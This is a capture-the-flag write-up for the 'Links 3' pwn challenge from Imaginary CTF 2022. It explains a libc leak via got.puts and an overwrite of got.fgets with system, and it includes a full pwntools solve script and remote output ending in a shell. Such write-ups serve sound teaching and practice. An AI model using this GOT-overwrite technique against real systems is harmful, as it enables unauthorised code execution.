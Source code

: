 ```yaml
---
name: Links 3 (2022)
event: Imaginary CTF 2022
category: Pwn
description: Writeup for Links 3 (Pwn) - Imaginary CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Links 3

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/GCkHwYBlsN8/0.jpg)](https://www.youtube.com/watch?v=GCkHwYBlsN8 "Links 3")

## Description

> And now you guys are exploiting my View Time feature that I put there solely for your convenience? Fine, then - no more time for you!

**[download challenge binary](https://imaginaryctf.org/r/iYVvf#links3)**

## Solution

I'll keep this short; since `Links 2`, the `view_time` function has been removed. We no longer have `system` in the GOT, but that doesn't matter.

As is common practice with stack-based buffer overflows, we can leak **any** Lib-C function address and then calculate our way back to the base of the binary. From there, we can add any offset we like to get the function of choosing, e.g. `libc.system` or a string, e.g. `libc."/bin/sh"`.

I chose to leak `got.puts`, when run against the server it leaks `0x7fbfd373eed0`. Once we get an address of a known function, we can take it to **[libc.blukat.me](https://libc.blukat.me)** or **[libc.rip](https://libc.rip)** and provide the function name and address.

We'll get a list of possible Lib-C library versions. The more functions we leak, the more we can narrow down the search.

In this case, the correct version was `libc6_2.35-0ubuntu3_amd64`, so we plug in the correct offsets.

```py
libc = puts - 0x80ed0
system = libc + 0x50d60
```

Running the binary, we get a shell.

```py
python exploit.py REMOTE puzzler7.imaginaryctf.org 2998
[+] Opening connection to puzzler7.imaginaryctf.org on port 2998: Done
[*] leaked got_puts: 0x7f470992eed0
[*] got_system: 0x7f47098fed60
[*] Switching to interactive mode
 What data do you want to write to this element?

>>> $ cat flag.txt
ictf{dammit_I'm_never_gonna_mix_up_64_and_0x64_again_it's_cost_me_three_flags_already}
```

**note:** If this write-up didn't make much sense, review `Links 1` and `Links 2` write-ups first 🙂

## Solve Script

```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break write_data
continue
'''.format(**locals())

# Binary filename
exe = './links3'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

# View time (populate system() in GOT)
io.sendlineafter(b'>>>', b'3')

# Add 5 elements to list
for i in range(5):
    io.sendlineafter(b'>>>', b'2')
    io.sendlineafter(b'>>>', str(i).encode())
    io.sendlineafter(b'>>>', b'CHUNK_' + str(i).encode())

# Overflow element pointer with got.system address
# This is because we need libc leak for x64 stack align
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', b'3')
# Overwrite the link to point to GOT entry, 0x51 for next chunk size to keep list intact
io.sendlineafter(b'>>>', (b'\x00' * 64) + flat([elf.got.puts, 0x51]))

# View list (leak libc.puts() address)
io.sendlineafter(b'>>>', b'1')
io.recvuntil(b'3: ')
puts = unpack(io.recv()[4:10].ljust(8, b'\x00'))
info("leaked got_puts: %#x", puts)
# libc6_2.35-0ubuntu3_amd64 - https://libc.rip/
libc = puts - 0x80ed0
system = libc + 0x50d60
info("got_system: %#x", system)

# Modify element in list
io.sendline(b'2')
io.sendlineafter(b'>>>', b'1')
# Overwrite the link to point to GOT entry, 0x51 for next chunk size to keep list intact
io.sendlineafter(b'>>>', b'/bin//sh' + (b'\x00' * 56) + flat([elf.got.fgets, 0x51]))

# Add element to list
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', b'2')
# Overwrite got.fgets with system
io.sendlineafter(b'>>>', flat(system))

# See if we've got a shell
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', b'1')
# Got Shell?
io.interactive()
```
